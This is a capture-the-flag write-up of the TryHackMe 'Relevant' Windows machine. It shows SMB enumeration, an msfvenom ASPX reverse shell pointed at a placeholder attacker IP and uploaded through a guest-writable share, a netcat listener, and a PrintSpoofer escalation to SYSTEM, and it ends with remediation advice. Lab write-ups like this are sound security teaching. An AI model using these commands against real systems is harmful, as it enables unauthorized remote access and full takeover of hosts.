






# TryHackMe: Relevant – Write-up

## 1. Executive Summary
The **Relevant** machine is a Windows-based CTF that demonstrates the dangers of misconfigured SMB shares and the impact of legacy service privileges. The attack vector involved discovering a hidden SMB share with guest-write permissions that was directly mapped to a web-accessible directory. By uploading a malicious `.aspx` payload, initial access was gained. Finally, the `SeImpersonatePrivilege` was leveraged to escalate privileges to `NT AUTHORITY\SYSTEM`.


## 2. Enumeration

### 2.1 Network Scanning
An initial Nmap scan was performed to identify open ports and services:

```bash
sudo nmap -sS -sV -sC -p- 10.114.169.100
```



**Key Findings:**
* **Port 80/445:** Standard HTTP and SMB services.
* **Port 49663:** A secondary IIS web server (unusual high port).
* **OS:** Windows Server 2016 Standard Evaluation.

### 2.2 SMB Enumeration
Using `smbclient`, I enumerated the available shares with guest access enabled:

```bash
smbclient -L //10.114.169.100/ -N
```



A non-standard share named **`nt4wrksv`** was identified. Further inspection revealed a file named `passwords.txt` containing Base64 encoded strings. More importantly, testing showed the share allowed **WRITE permissions** for the guest user.

---

## 3. Exploitation

### 3.1 Establishing a Web-to-SMB Link
I confirmed that files uploaded to the `nt4wrksv` SMB share were directly accessible via the web server running on port **49663**.

* **SMB Path:** `\\10.114.169.100\nt4wrksv\test.txt`
* **Web Path:** `http://10.114.169.100:49663/nt4wrksv/test.txt`

### 3.2 Gaining Initial Access
I generated a malicious `.aspx` reverse shell payload using `msfvenom`:

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<KALI_IP> LPORT=4444 -f aspx -o shell.aspx
```



The payload was uploaded to the server via `smbclient`:

```bash
smbclient //10.114.169.100/nt4wrksv -N
smb: \> put shell.aspx
```

After setting up a Netcat listener (`nc -lvnp 4444`) on the local machine and navigating to the file's URL, a reverse shell was successfully established as `iis apppool\defaultapppool`.

---

## 4. Privilege Escalation

### 4.1 Privilege Inspection
Checking the current user's privileges revealed a critical entry:

```cmd
whoami /priv
```

| Privilege Name | Description | State |
| :--- | :--- | :--- |
| **SeImpersonatePrivilege** | Impersonate a client after authentication | **Enabled** |

### 4.2 Escalating to SYSTEM
Since the machine is running Windows Server 2016, I utilized the **PrintSpoofer** tool to exploit the enabled `SeImpersonatePrivilege`.

1. **Transfer:** Uploaded `PrintSpoofer64.exe` to the `nt4wrksv` share.
2. **Execution:** Ran the exploit to spawn a new CMD process with SYSTEM tokens:

```cmd
PrintSpoofer64.exe -i -c cmd
```



Verification with `whoami` confirmed the escalation to **`nt authority\system`**.

---





## 5. Conclusion

**Vulnerabilities Identified:**
1. **Insecure SMB Configuration:** Allowing write access to a guest user on a directory served by a web server.
2. **Excessive Service Privileges:** The `SeImpersonatePrivilege` was left enabled for the web service account, allowing trivial escalation to SYSTEM on an unpatched server.

**Remediation:**
* Disable anonymous/guest access to SMB shares.
* Follow the Principle of Least Privilege (PoLP) for service accounts.
* Ensure the web root and its subdirectories are not writable by the account serving the content unless absolutely necessary.